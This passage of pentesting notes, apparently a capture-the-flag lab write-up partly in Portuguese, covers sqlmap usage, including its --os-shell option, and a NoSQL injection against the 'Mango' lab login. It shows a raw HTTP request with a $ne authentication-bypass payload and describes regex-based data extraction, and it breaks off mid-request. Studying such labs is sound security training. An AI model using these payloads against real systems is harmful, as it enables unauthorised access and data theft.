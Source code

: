         - Attempts to exploit the “user” field using boolean technique.
    - `sqlmap -r <captured request>`
        - Capture a request via Burp Suite, save it to a file, and use this command to let sqlmap automate everything. Add –os-shell at the end to pop a shell if possible.
- MangoDB
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2036.png)
    
    O website tem login
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2037.png)
    
    Ao tentar fazer login usando credenciais padrão comuns, a tentativa falha. Vamos interceptar a solicitação no Burp e examinar a solicitação de login.
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2038.png)
    
    Ao injetar aspas, não recebemos um erro ou uma mudança na resposta. Como o site está sendo executado em PHP, podemos tentar contornar a autenticação usando a manipulação de tipos. Isso pode ser feito adicionando [] aos parâmetros da solicitação, o que faz com que o PHP os use como uma matriz. Isso irá contornar a autenticação se houver algum tipo de comparação fraca em vigor.
    
    ![Untitled](HTTP%204645d23f7f8d4ee4966b0de67574e568/Untitled%2039.png)
    
    Como é uma base de dados NoSQL colocamos os `$ne` antes do igual 
    
    ```
    POST / HTTP/1.1
    Host: staging-order.mango.htb
    User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 51
    Origin: http://staging-order.mango.htb
    DNT: 1
    Connection: close
    Referer: http://staging-order.mango.htb/
    Cookie: PHPSESSID=2iam3rlq1fbaajte968f1el9nd
    Upgrade-Insecure-Requests: 1
    Sec-GPC: 1
    
    username[$ne]=admin&password[$ne]=admin&login=login
    ```
    
    Como a página inicial não retorna informações úteis, podemos tentar exfiltrar dados do banco de dados Mongo usando o operador $regex. O operador $regex pode ser usado para encontrar dados usando expressões regulares. Por exemplo, a seguinte consulta procurará por nomes de usuário que correspondam à regex a.*, que corresponde a qualquer nome de usuário que contenha um a.
    
    ```
    Host: staging-order.mango.htb
    User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 41
    Origin: http://staging-order.mango.htb
    DNT: 1
    Connection: close
    Referer: http://staging-order.mango.htb/
    Cookie: PHPSESSID=2iam3rlq1fbaajte968f1el9nd
    Upgrade-Insecure-Requests: 1
    Sec-GPC: 1
    